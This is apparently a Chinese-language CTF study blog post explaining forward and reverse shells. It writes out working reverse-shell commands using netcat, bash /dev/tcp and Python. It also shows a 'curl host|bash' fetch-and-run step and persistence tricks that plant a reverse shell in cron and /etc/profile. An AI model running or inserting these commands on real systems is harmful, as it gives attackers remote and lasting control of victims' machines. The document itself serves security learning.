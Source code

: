 ```yaml
---
title: 如何反弹shell
date: 2022-03-30 11:15:00
tags: [ctf,security]
description: reverse shell
archive: false

---
```


# 如何反弹shell

## linux下常见网络工具🧀

### netcat

netcat也就是平时用的nc，是一种功能丰富的网络调试和调查工具，它可以产生用户可能需要的几乎任何类型的连接，可以连接到远程主机`nc  -nvv Targert_IP  Targert_Port`，监听本地主机`nc  -l  -p  Local_Port`，端口扫描`nc  -v  target_IP  target_Port`、端口监听`nc  -l  -p  local_Port`、远程文件传输`nc  Targert_IP  Targert_Port  <  Targert_File`、正向shell、反向shell等等。

### curl

在Linux中curl是一个利用URL规则在[命令行](https://so.csdn.net/so/search?q=命令行&spm=1001.2101.3001.7020)下工作的文件传输工具，可以说是一款很强大的http命令行工具。它支持文件的上传和下载，是综合传输工具，这个工具可以帮助我们在服务器上很好的模拟http的行为。

### wget

wget是一个下载文件的工具，它用在命令行下。对于Linux用户是必不可少的工具，我们经常要下载一些软件或从远程服务器恢复备份到本地服务器。

### curl和wget的区别

wget是个专职的下载利器，简单，专一，极致；而curl可以下载，但是长项不在于下载，而在于模拟提交web数据，POST/GET请求，调试网页，等等。在下载上，也各有所长，wget可以递归，支持断点；而curl支持URL中加入变量，因此可以批量下载。个人用途上，我经常用wget来下载文件，加 -c选项不怕断网；使用curl 来跟网站的API 交互，简便清晰。

#### ping

ping命令本身处于应用层，相当于一个应用程序，它直接使用网络层的ICMP协议，ping用来检查网络是否通畅或者网络连接速度的命令。

### telnet

telnet协议是TCP/IP协议族的其中之一，是Internet远端登录服务的标准协议和主要方式，常用于网页服务器的远端控制，可供使用者在本地主机执行远端主机上的工作。telnet通常是用来探测指定ip是否开放指定端口。

### ssh

简单来书,ssh 和 telnet 是实现相同的功能 , ssh中 数据是经过加密的,是安全的 , 而 Telnet是明文传输的，ssh 是加密的，基于 SSL 。

## 正向shell如何连接

如果客户端连接服务器端，想要获取服务器端的shell，那么称为正向shell。

**目标主机：**

命令：`nc  -lvp  Targert_Port  -e  /bin/sh  `

![image-20220329101019243](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329101019243.png)

**本地主机：**

命令：`nc  Targert_IP  Targert_Port `

![image-20220329101103804](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329101103804.png)

## 什么是反弹shell

>
>
>参考:
>
>https://xz.aliyun.com/t/9488
>
>https://zhuanlan.zhihu.com/p/138393396

反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

有如下情况：

1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。

2.目标机器的ip动态改变，你不能持续控制。

3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。

4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

反弹shell的方式有很多，那具体要用哪种方式还需要根据目标主机的环境来确定，比如目标主机上如果安装有netcat，那我们就可以利用netcat反弹shell，如果具有python环境，那我们可以利用python反弹shell。如果具有php环境，那我们可以利用php反弹shell。

## 弹shell的方式

### netcat

攻击机开启监听:`nc -lvp Target_Port`

-lvp中l指监听，v指输出交互过程，p为指定端口

靶机连接攻击机:`netcat Target_IP Target_Port -e /bin/bash `

![image-20220329104342323](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329104342323.png)

![image-20220329104621670](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329104621670.png)

### Bash

同样的我们还是用nc -lvp Target_Port在攻击机的端口开启监听，`nc -lvp Target_Port`这次我们使用Bash结合重定向来反弹shell

`bash -i >& /dev/tcp/Target_IP/Target_Port 0>&1`或者`bash -c "bash -i >& /dev/tcp/Target_IP/Target_Port 0>&1"`

bash -i 产生bash交互环境 >& 将联合符号前后内容结合，重定向给后者，/dev/tcp/Target_IP/Target_Port让目标主机发起与攻击机在Target_Port上的TCP连接，0>&1将标准输入和标准输出的内容相结合，重定向给前面标准输出的内容。

Bash产生了一个交互环境和本地主机主动发起与攻击机端口建立的连接相结合，然后在重定向个TCP 会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。

![image-20220329105826704](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329105826704.png)

![image-20220329110013286](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329110013286.png)

### Python脚本反弹shell

同样的我们还是在攻击机开始端口监听，`nc -lvp Target_Port`

在靶机上执行`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Target_IP",Target_Port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

### Others

反弹shell的方式很多，nc和bash是比较常见的方式，其他还有Telnet，Socat等工具可以反弹shell，或者写个python，php等脚本也可以反弹shell，比较琐碎的内容具体遇到了再查即可。

### 一些小技巧

因为有时候达成利用的方式可能比较间接，这些技巧可以在不同的情境下达成反弹shell的作用。

#### Curl反弹shell

简单来说就是将Bash重定向这一句内容写入文件，让靶机用curl下载这个文件并且执行，达到用Bash重定向相同的效果

首先，在攻击者vps的web目录里面创建一个index文件（index.php或index.html），内容如下：

`bash -i >& /dev/tcp/Target_IP/Target_Port 0>&1`或者`bash -c "bash -i >& /dev/tcp/Target_IP/Target_Port 0>&1"`

然后在目标机上执行如下，即可反弹shell

`curl Target_IP|bash`

#### 将反弹shell的命令写入定时任务

我们可以在目标主机的定时任务文件中写入一个反弹shell的脚本，但是前提是我们必须要知道目标主机当前的用户名是哪个。因为我们的反弹shell命令是要写在 `/var/spool/cron/[crontabs]/<username>` 内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

定时任务的理念就是每隔一段时间发送shell，以下为每隔1分钟发送shell

`*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/Target_IP/Target_Port 0>&1`

#### 将反弹shell的命令写入/etc/profile文件

将反弹shell的命写入/etc/profile文件中，/etc/profile中的内容会在用户打开bash窗口时执行。

`/bin/bash -i >& /dev/tcp/Target_IP/Target_Port 0>&1 & `

 最后面那个&为的是防止管理员无法输入命令





